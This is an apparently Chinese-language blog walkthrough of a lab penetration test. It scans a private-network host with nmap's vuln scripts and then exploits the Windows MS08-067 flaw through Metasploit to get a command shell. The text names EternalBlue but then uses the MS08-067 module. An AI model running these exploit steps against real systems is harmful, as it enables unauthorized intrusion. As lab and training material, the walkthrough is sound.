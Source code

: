 

<img src="https://i-blog.csdnimg.cn/blog_migrate/c77415df16751f644aba60670d7eb4d0.png" alt="" style="max-height:394px; box-sizing:content-box;" />


发现也无法确定 那我们直接就 通过脚本扫

```cobol
nmap --script=vuln 192.168.222.137
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f335fa4c5cea4a9fb59982391c2c18a3.png" alt="" style="max-height:709px; box-sizing:content-box;" />


扫到了 并且也存在永恒之蓝

那我们直接启动  msf

```cobol
msfconsole
 
search MS08-067
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ec00ea255e45a2e049b2ba8210d4a0b7.png" alt="" style="max-height:193px; box-sizing:content-box;" />




```cobol
use 0
 
options
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ce342a35fa93b86117fe796280ba4699.png" alt="" style="max-height:430px; box-sizing:content-box;" />




```sql
set RHOSTS 192.168.222.137
show targets
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/81f5439f50fc69e20c27b67af027be81.png" alt="" style="max-height:616px; box-sizing:content-box;" />




```cobol
set target 34
 
run
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a8db8655fb7009f88eea3585f0db3462.png" alt="" style="max-height:501px; box-sizing:content-box;" />


成功调用了cmd